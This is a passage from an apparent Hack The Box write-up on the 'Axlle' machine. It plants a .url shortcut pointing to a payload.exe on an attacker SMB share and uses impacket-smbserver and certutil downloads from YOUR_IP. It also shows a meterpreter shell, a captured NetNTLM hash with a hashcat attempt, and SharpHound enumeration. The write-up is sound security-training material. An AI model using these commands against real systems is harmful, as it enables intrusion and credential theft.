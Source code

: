 ```
[InternetShortcut]
URL=file://YOUR_IP/share/payload.exe
```

4. Start a SMB server and a web server.

```
impacket-smbserver -smb2support share .

python3 -m http.server
```

![smb server](/images/HTB-Axlle/smb-server.png)

5. Place the .url file in the testing folder.

```
certutil.exe -urlcache -split -f http://YOUR_IP:WEBSERVER_PORT/evil.url evil.url
```

![evil url file download](/images/HTB-Axlle/evil_url_download.png)

After a few seconds we get a meterpreter shell as `dallon.matrix`.

![dallon.matrix shell](/images/HTB-Axlle/dallon_shell.png)

Note that we also get the password hash of `dallon.matrix` on the SMB server.

![dallon.matrix password hash](/images/HTB-Axlle/dallon_pwd_hash.png)

But we are unable to crack it.

```
hashcat -a 0 -m 5600 dallon_hash.txt /usr/share/wordlists/rockyou.txt
```

![dallon.matrix password hash crack failure](/images/HTB-Axlle/dallon_hashcrack_fail.png)

On the Desktop, we find the user flag.

![user flag](/images/HTB-Axlle/user_flag.png)

### Lateral Movement (shell as baz.humphries)

For the Active Directory enumeration we will use [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe).

```
certutil.exe -urlcache -split -f http://YOUR_IP:WEBSERVER_PORT/SharpHound.exe sharphound.exe
```

After executing it, download the `zip` file.

![sharphound zip file](/images/HTB-Axlle/sharphound_zip_file.png)

Unzip it and load the files into Bloodhound.
